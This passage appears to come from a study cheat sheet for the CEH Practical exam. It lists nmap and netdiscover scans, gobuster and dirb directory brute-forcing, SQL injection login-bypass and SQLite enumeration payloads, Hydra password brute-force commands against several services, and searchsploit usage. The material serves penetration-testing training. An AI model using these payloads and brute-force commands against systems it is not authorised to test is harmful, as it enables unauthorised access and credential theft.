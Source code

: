 ## Additional Commands

To bolster your CEH Practical preparation, consider these additional commands:

- `netdiscover -i eth0`: Network discovery using netdiscover.
- `nmap -p- 10.10.10.10 [Any IP]`: Scanning all ports with nmap.
- `nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10`: In-depth port scanning with nmap.
- `gobuster -e -u http://10.10.10.10 -w wordlist.txt`: Directory brute-forcing with gobuster.
- `dirb http://10.10.10.10 wordlist.txt`: Directory brute-forcing with dirb.
- SQL Injections:
- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1 --`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1 --`
- `') or ('1'='1 --`
- `',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='`
- `',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='`

## Commands for Hydra, Searchsploit, Nmap, and More

Here are commands for tools like Hydra, Searchsploit, Nmap, and others:

- **Hydra**:
- `hydra -l root -P passwords.txt [-t 32] <IP> ftp`
- `hydra -L usernames.txt -P pass.txt <IP> mysql`
- `hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V`
- `hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>`
- `hydra -P common-snmp-community-strings.txt target.com snmp`
- `hydra -l Administrator -P words.txt 192.168.1.12 smb t 1`
- `hydra -l root -P passwords.txt <IP> ssh`

- **Searchsploit**:
- `searchsploit "Linux Kernel"`
- `searchsploit -m 7618` (Paste the exploit in the current directory)
- `searchsploit -p 7618[.c]` (Show complete path)
- `searchsploit -- nmap file.xml` (Search vulnerabilities inside a Nmap XML result)

- **Nmap**:
- `nmap -sn 170.16.0.1/24 -oN nmap.txt`
- `nmap -O 170.16.0.1/24 -oN nmap-OS.txt`
- `namp -sC -sV -sS 170.16.0.20 -oN nmap-all.txt`

## Other Helpful Resources

For specific questions and challenges in CEH Practical, the following resources can be beneficial:
